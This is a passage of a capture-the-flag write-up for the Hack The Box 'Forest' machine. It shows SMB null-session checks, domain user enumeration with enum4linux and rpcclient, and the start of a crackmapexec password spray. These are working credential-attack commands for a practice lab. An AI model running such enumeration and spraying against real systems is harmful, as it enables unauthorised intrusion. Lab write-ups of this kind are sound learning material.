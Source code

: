 ### SMB
The potential quick win is to see if there are any shares we can null authenticate to:

```
smbclient -L 10.10.10.161 -N
```
```
-L	list
-N	no password
```
![SMBClient]({{site.url}}/assets/CTF/HTB-Forest/SMBClient.png)

So no luck there.

### User Enumeration
We have 2 options when it comes to trying to enumerate usernames from the domain controller – we can use enum4linux to do all the work for us, or we can manually connect via rpcclient.

Enum4Linux
```
enum4linux -U 10.10.10.161
```
```
-U        get userlist
```
![Enum4Linux]({{site.url}}/assets/CTF/HTB-Forest/Enum4Linux.png)

This has the advantage of also providing us with the domain name being utilise – HTB.

Rpcclient
```
rpcclient -U "" -N 10.10.10.161
$> enumdomusers
```

```
-U username
-N no-password
```
![rpcclient]({{site.url}}/assets/CTF/HTB-Forest/rpcclient.png)

## Path to User.
Now that we have a list of users, we can start building towards getting credentials. Initially I attempted to password spray using crack-map-exec (cme).
```
cme smb 10.10.10.161 -u userlist -p 'Welcome123!'
```
```
-u userlist
-p password
```

![cme1]({{site.url}}/assets/CTF/HTB-Forest/cme1.png)
